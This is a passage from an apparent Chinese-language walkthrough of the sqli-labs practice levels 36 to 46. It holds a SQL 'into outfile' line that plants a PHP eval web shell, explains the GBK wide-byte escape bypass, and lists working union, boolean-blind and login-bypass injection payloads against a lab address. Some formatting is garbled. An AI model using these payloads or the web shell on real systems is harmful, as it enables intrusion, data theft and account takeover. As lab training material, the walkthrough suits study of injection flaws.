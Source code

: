 ````select “<?php @eval($_POST[‘giantbranch’]);?>” into outfile “XXX\test.php” ````当这里要获取到网站的在系统中的具体路径（绝对路径）
//echo “The filtered request is :” .$id . “<br>”;

//logging the connection parameters to a file for analysis.
$fp=fopen(‘result.txt’,’a’);
fwrite($fp,’ID:’.$id.”\n”);
fclose($fp);
mysql_query(“SET NAMES gbk”);——————————–>>
```
这里应该是自己把\\给编码走了
```
$sql=”SELECT * FROM users WHERE id=$id LIMIT 0,1″;
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```

### 第三十六题
mysql_real_escape_string()
数据库字符集设为GBK时，0xbf27本身不是一个有效的GBK字符，但经过 addslashes() 转换后变为0xbf5c27，前面的0xbf5c是个有效的GBK字符，所以0xbf5c27会被当作一个字符0xbf5c和一个单引号来处理，结果漏洞就触发了。

mysql_real_escape_string() 也存在相同的问题，只不过相比 addslashes() 它考虑到了用什么字符集来处理，因此可以用相

应的字符集来处理字符。

http://202.206.96.155:8081/sqli-labs/Less-36/?id=-1%df’union select 1,2,3–+

### 第三十七题
uname=a錦’union select 1,2#&passwd=a&submit=Submit

### 去了解一下堆叠查询吧 ; 这个题没啥特殊的

## 第三天 38-53
今天来刷第三部分，呀呀呀，第三部分的题目比较少，希望能刷的快一点，然后进攻第四部分，嘻嘻。

### 第三十八题
http://202.206.96.155:8081/sqli-labs/Less-38/?id=0′ union select 1,2,3–+

### 第三十九题
http://202.206.96.155:8081/sqli-labs/Less-39/?id=0 union select 1,2,3–+

### 第四十题
http://202.206.96.155:8081/sqli-labs/Less-40/?id=1′ and 1=1 and ‘1’=’1
我在纠结后面的题目要不要继续做下去 因为真的一句话就可以过好几关，这个推荐你们用基于时间的注入试试

### 第四十一题
http://202.206.96.155:8081/sqli-labs/Less-41/?id=1 and 1=2
基于布尔的盲注，整型的 不用闭合单引号

### 第四十二题
用户名 a’ or ‘1’=’1 密码：b’ or ‘1’=’1′ limit 1,1 # 修改limit参数，可以修改任意用户名

### 第四十三题
用户名 a’) or ‘1’=’1 密码：b’) or ‘1’=’1′ limit 1,1 #
修改limit参数，可以修改任意用户名

### 第四十四题
同第四十二题

### 第四十五题
同第四十三题

### 第四十六题
后台的查询语句为$sql = “select * from users order by $sort”;
````